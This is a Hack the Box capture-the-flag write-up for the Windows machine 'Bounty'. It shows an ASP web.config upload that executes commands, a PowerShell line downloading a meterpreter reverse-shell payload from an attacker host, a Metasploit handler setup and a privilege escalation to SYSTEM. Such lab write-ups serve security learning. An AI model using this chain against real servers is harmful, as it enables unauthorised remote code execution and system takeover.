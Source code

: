 :slug: bounty-writeup/
:date: 2018-10-29
:category: attacks
:subtitle: How to resolve HTB Bounty
:tags: security, htb, pwn, web
:image: cover.png
:alt: Hand holding a pirate toy
:description: Bounty is a Windows Hack the Box (HTB) machine that has several vulnerabilities where an attacker can upload malicious files and get system access. In this article we present how to exploit the vulnerabilities of that machine and how to gain access as Administrator and obtain the root flag.
:keywords: HTB, Security, Hack the Box, Web, Writeup, Bounty.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/NctO2nqkWCY

= Bounty Writeup

== Scanning Phase

First, we check the IP of the
link:https://www.hackthebox.eu/home/machines/profile/142[Bounty]
machine and try a `ping`
to see if we have access.

image::bounty-ip.png[ip]

.ping
[source, bash]
----
host$ ping -c2 10.10.10.93
----

image::ping.png[ping]

Then, we scan the ports with `nmap`.
In this case, we’re going to use basic `nmap`.

[source, bash]
----
host$ nmap 10.10.10.93
----

And, we see that there is only one port open `port 80`.

image::nmap.png[nmap]

Then, we try to access `port 80` with our browser,
and it opens a web page with an image of Merlin.

image::web.png[web-page]

As we see on this page,
there is nothing more than an image,
so we’re going to scan the whole web server with `dirbuster`
to see if we can access something useful.

[source, bash]
----
host$ dirb http://10.10.10.91
----


image::dirb.png[dirb-scan]

Here we found a folder where uploaded files are stored.
We need the page of the upload functionality.
With `dirbuster`, and some options,
we can set different extensions and obtain what we are looking for.
Since this is a `Windows` machine,
we are going to use `asp` and `aspx` extensions.

[source, bash]
----
host$ dirb http://10.10.10.91 -X .asp,.aspx
----

image::dirb2.png[dirb-scan2]
image::upload-page.png[upload-page]

== Getting user

In the last step we got an upload page,
but with no further instructions.
There we can try to upload an image
and check the result.

image::upload1.png[upload1]

But if we try with a webshell in `aspx` or `asp`
it returns an error.

image::upload2.png[upload2]

The web server has a filter
that possibly checks the extension of the uploaded file.
If you try with double extension it won’t work either.

So what can we do?
In `Windows` there are `3` major types of extensions:
`asp`, `aspx`, and `config`.
We already tried the `asp` and `aspx` extensions,
what happens if we upload a `web.config` file?

[source, xml,linenums]
----
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*"
           modules="IsapiModule"
           scriptProcessor="%windir%\system32\inetsrv\asp.dll"
           resourceType="Unspecified"
           requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
----

image::upload1.png[upload11]

We can see the result is positive.
The `web.config` file is used by `IIS` servers
to store settings that come with the installation of the `API`.

With this, we can start to exploit this machine.
There is a vulnerability on the `web.config` file processing
that could allow an attacker to execute code remotely,
by injecting `asp` code in the file
(More information can be found
link:https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/[here]
).

So, in order to have remote code execution (`RCE`),
we need to add the following lines
to our `web.config` file:

----
<!--
<%
Response.write("-"&"->")
Response.write("</p><pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("cmd.exe /c whoami")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><p><!-"&"-")
%>
-->
----

Then, we upload it,
and access the file via the web, as before.

image::rce-ok.png[rce-ok]

*Eureka!* With this, we can have our user flag,
but we want an active shell
that we can use for further enumeration.
For this, we can use `msfvenom`.
This is a tool that creates payloads
in order to gain access to a machine.
It is installed by default on `Kali`;
it also comes with the installation of `Metasploit`.
Then, we upload our file to the server with our `RCE`
and start a web server on our side
to download our exploit.

First, the exploit with msfvenom:

[source, bash]
----
host$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip.ip.ip.ip LPORT=port -f exe -o myexploit.exe --smallest
----

This will create a malicious file.
When executed on the server
it will give us a reverse shell with our `RCE` file using `meterpreter`.
This is an advanced, dynamically extensible payload
that uses in-memory `DLL` injection stagers,
and is extended over the network at runtime.

Then we need to start a web server in our machine.
We can do it with `Python` by running:

[source, bash]
----
host$ python -m SimpleHTTPServer 7000
----

To make the server download our file,
we can use the next `PowerShell` command
in our `web.config` file
replacing the `whoami` one:

[source, xml]
----
Set cmd1 = wShell1.Exec("cmd.exe /c powershell -NoProfile -ExecutionPolicy unrestricted -Command (new-object System.Net.WebClient).Downloadfile('http://ip.ip.ip.ip:7000/myexploit.exe', 'C:\Windows\Temp\myexploit.exe')")
----

Upload it, and then open it on a private tab.
Now, we can see that the server downloaded our file.

image::download.png[download]

Then we need to start our listener.
We can use `Metasploit` to do it:

[source, bash]
----
host$ msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST ip.ip.ip.ip
msf exploit(multi/handler) > set LPORT port
msf exploit(multi/handler) > run
----

With this, we are ready to initiate our reverse shell.
In order to do it,
we need to run our exploit on the server
with the same `RCE` method as before,
changing the command to the following:

[source, xml]
----
Set cmd1 = wShell1.Exec("cmd.exe /c C:\Windows\Temp\myexploit.exe")
----

Upload it, open the page of the `web.config` file
and we have our reverse shell.

image::reverse-shell.png[reverse-shell]

== Getting root

With `meterpreter`
we can start to enumerate the server.

image::sys-info.png[sys-info]

And, we see that the server has an `x64 Architecture`.
We are going to repeat the process
(`msfvenom`, `upload`, `handler`, `run`)
but now with the payload:

----
windows/x64/meterpreter/reverse_tcp
----

Then, when we have another session opened,
we are going to run the next one:

[source,bash]
----
meterpreter > run post/multi/recon/local_exploit_suggester
----

image::exploit-suggester.png[exploit-suggester]

Here we got some exploits
that we can use to elevate to `Administrator`,
we are going to use the first one with:

[source,bash]
----
meterpreter > background
msf exploit(multi/handler) > use exploit/windows/local/ms10_092_schelevator
msf exploit(windows/local/ms10_092_schelevator) > set SESSION sessionnum
msf exploit(windows/local/ms10_092_schelevator) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/ms10_092_schelevator) > set LPORT port
msf exploit(windows/local/ms10_092_schelevator) > set LHOST ip.ip.ip.ip
msf exploit(windows/local/ms10_092_schelevator) > run
----

When it finishes,
we will have a new session created
and with user `NT Authority\System`.

image::admin.png[admin]

With this we can read our `root` flag.

On this challenge, we learned there was a vulnerability
with the `web.config` file.
We also learned to always check the architecture
when we access a machine as a user,
and how to use some of the `meterpreter` commands.
